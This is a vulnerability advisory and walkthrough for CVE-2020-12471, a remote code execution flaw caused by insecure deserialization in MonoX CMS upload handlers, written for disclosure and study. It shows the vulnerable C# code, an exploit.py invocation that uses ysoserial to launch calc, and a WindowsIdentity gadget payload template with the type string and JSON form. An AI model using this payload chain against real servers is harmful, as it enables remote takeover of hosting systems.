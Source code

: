 ```yaml
---
layout: default
grand_parent: MonoX CMS
nav_order: 1
parent: CVE-2020-12471 - RCE via Insecure Deserialization
title: RCE via HTML5Upload and SilverLightUploadHandler
---
```

# HTML5Upload and SilverLightUploadHandler - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadHandler`. The combined manipulation of the of the **ThumbnailSizeArgs** an **ThumbnailSizeType** parameters leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12471. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily found through a deep code analysis. The affected code block is the following one:

```csharp
if (base.Request.Form["ThumbnailSizeArgs"] != null && base.Request.Form["ThumbnailSizeType"] != null)
    {
        try
        {
            string @string = Encoding.UTF8.GetString(Convert.FromBase64String(base.Request.Form["ThumbnailSizeType"]));
            this.ThumbnailSize = (JsonSerializer.Deserialize(Convert.FromBase64String(base.Request.Form["ThumbnailSizeArgs"]), Type.GetType(@string)) as ThumbnailSizeEventArgs);
        }
        catch (Exception logMessage)
        {
            this.log.Error(logMessage);
        }
    }
```

As observable, the JsonSerializer is deserializaing directly the request parameter `ThumbnailSizeArgs`, without any prior validation of its content.

The `JsonSerializer` object is an instance of the custom MonoX class `MonoSoftware.Core.JsonSerializer`. Studing this class, it was possible to identify the actual implementation of the Deserialize function call:

```csharp
public static object Deserialize(Stream content, Type type)
    {
        DataContractJsonSerializer dataContractJsonSerializer = new DataContractJsonSerializer(type);
        DataContractJsonSerializer dataContractJsonSerializer2;
        if (5 != 0) // Decompiled if
        {
            dataContractJsonSerializer2 = dataContractJsonSerializer;
        }
        return dataContractJsonSerializer2.ReadObject(content);
    }
```

From that, it was possible to ascertain that the deserialization routine was using `DataContractJsonSerializer`, taking `ThumbnailSizeArgs` as the seriliazed payload, and `ThumbnailSizeType` as the type to use for deserialization.

`DataContractJsonSerializer` is one of the .NET formatters that are basically secure, and usually free from deserialization issues, as it uses a strong object graph inspection, forbidding the deserialization of non-whitelisted objects. However, even `DataContractJsonSerializer` can be affected by insecure deserialization if the "Type" parameter passed to `Deserialize` is controllable by an external attacker, as this "Type" is automatically added to the whitelist. It may be obvious, but that was the case.

As no automatic payload generator was available in **ysoserial.net**, crafting the payload for this instance required a bit of manual interaction. After a bit of research, it was clear that `WindowsIdentity` was the right POP chain to use, as it supports `DataContractSerializer`, and because its payload is a "one level" XML.

```xml
<root type="System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <WindowsIdentity xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns="http://schemas.datacontract.org/2004/07/System.Security.Principal">
      <System.Security.ClaimsIdentity.actor i:type="x:string" xmlns="">
          {base64-encoded-payload}
      </System.Security.ClaimsIdentity.actor>
       </WindowsIdentity>
</root>
```
From the XML above, it was possible to identify all the needed information to craft the final exploit:

**Type**

```
System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

**Payload**

Transformed in JSON format, the payload was reduced to:

```json
{"System.Security.ClaimsIdentity.actor":"[base64-encoded-payload]"}
```

Upon deserialization, it was then possible to execute arbitrary code on the underlying Windows Hosting Server.  

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)